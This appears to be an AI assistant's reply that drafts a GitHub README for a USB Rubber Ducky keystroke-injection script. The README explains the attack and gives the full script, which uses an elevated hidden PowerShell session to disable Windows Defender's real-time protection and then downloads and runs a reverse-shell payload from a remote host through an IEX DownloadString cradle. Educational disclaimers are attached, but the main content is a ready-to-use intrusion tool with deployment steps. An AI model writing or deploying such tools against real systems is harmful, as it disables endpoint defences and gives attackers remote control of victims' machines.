 Here’s a README file description for the provided script, which can be used on GitHub:

---

# Reverse Shell Automation Script for Windows

This script is designed to disable Windows Defender and execute a reverse shell on a target Windows machine. The script uses PowerShell commands to achieve these tasks, making it suitable for penetration testing and security assessments. **Note**: This script is intended for ethical hacking and educational purposes only. Unauthorized use of this script is illegal and unethical.

## How It Works

1. **Disable Windows Defender**: The script initiates an elevated PowerShell session to disable Windows Defender's real-time protection. This allows the execution of potentially malicious scripts without being blocked by the antivirus software.

2. **Establish a Reverse Shell**: After disabling Windows Defender, the script downloads and executes a reverse shell PowerShell script from a remote server. This connects back to the attacker's machine, giving them remote access to the target system.

## Script Breakdown

1. **Turn off Windows Defender**:
   - The script uses a combination of Windows GUI automation (via key presses) and PowerShell commands to disable Windows Defender's real-time protection.
   - It starts by opening a Run dialog (`GUI r`) and then executing a PowerShell command to disable Windows Defender.

2. **Start Reverse Shell**:
   - After disabling Windows Defender, the script opens another Run dialog to execute a PowerShell command that downloads and runs a reverse shell script from a remote server.

## Usage

1. **Preparation**:
   - Host a reverse shell script (`shell.ps1`) on a remote server that is accessible from the target machine.
   - Update the script with the appropriate IP address and path to the reverse shell script.

2. **Deploy the Script**:
   - The script can be deployed using a USB Rubber Ducky, Teensy, or other HID (Human Interface Device) attack platforms that can automate keystrokes on the target machine.

3. **Run the Script**:
   - Plug the device into the target machine.
   - The script will execute automatically, turning off Windows Defender and establishing a reverse shell.

## Example Script

```powershell
REM Turn off Windows Defender and start reverse shell
REM
DELAY 1000
GUI r
DELAY 200
REM Start an elevated powershell instance which will disable Windows Defender.
STRING powershell -w hidden start powershell -A 'Set-MpPreference -DisableRea $true' -V runAs
ENTER
DELAY 1000
REM if you need administrator [left, enter and delay 1000]
LEFT
ENTER
DELAY 1000
ALT y
DELAY 1000
GUI r
DELAY 100
STRING powershell -w hidden "IEX (New-Object Net.WebClient).DownloadString('http://192.168.1.15/shell.ps1');"
ENTER
STRING exit
ENTER
```

## Disclaimer

This script is for **educational purposes only**. Misuse of this script can result in criminal charges and legal consequences. The authors are not responsible for any misuse or damage caused by this script. Use responsibly and always have permission before attempting to access or compromise any systems.

## License

This project is licensed under the MIT License - see the [LICENSE](LICENSE) file for details.

---

Feel free to copy and paste this into your GitHub repository's README.md file.

